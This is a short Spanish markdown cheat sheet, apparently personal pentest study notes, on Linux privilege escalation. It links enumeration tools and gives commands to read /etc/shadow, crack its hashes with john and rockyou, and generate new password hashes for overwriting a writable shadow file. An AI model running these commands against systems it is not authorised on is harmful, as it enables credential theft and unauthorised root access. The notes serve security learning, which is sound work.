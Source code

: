 # Introducción

En este .md ire añadiendo comandos y rutas importantes que me parecen a la hora de escalar privilegios en Linux (Mi experiencia, mis comandos)

Dejo este repositorio para Enumeración de Linux en /tmp automáticamente

```
https://github.com/rebootuser/LinEnum.git
```

Buscar Shells scape

```
sudo -l -l
```

```
https://gtfobins.github.io
```

Dejo por aquí el comando principal a la hora de entrar en una máquina linux

```
id
```

## /etc/shadow

### Lectura

```
ls -l /etc/shadow
cat /etc/shadow
```

Si encontramos un usuario o hash pass podemos utilizar john

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### Escritura

```
ls -l /etc/shadow
mkpasswd -m sha-512 pass
```

O otra

```
openssl passwd newpasswordhere
```












